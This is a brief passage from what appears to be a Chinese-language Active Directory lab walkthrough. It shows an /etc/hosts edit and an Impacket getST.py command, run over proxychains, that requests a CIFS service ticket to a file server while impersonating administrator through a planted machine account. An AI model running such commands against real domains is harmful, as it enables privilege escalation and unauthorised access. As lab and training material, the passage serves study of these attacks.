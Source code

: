 [![](assets/1706846898-c584a3c2160804ec0c48eda6f17d1842.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214131-70fc0dc8-c03e-1.png)

接下来就到了申请 ST 的步骤了，不过在申请之前，我们需要先配置下映射关系

```bash
vim /etc/hosts
```

[![](assets/1706846898-b4f94d9473f4f606226ffe458915a830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214137-74b847ce-c03e-1.png)

而后申请 ST

```bash
proxychains python3 getST.py -dc-ip 172.22.60.8 xiaorang.lab/evilpc2$:password -spn cifs/FILESERVER.xiaorang.lab -impersonate administrator
```

[![](assets/1706846898-8db25659c376dd45686ea814d0d955d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214145-79b3e7ec-c03e-1.png)
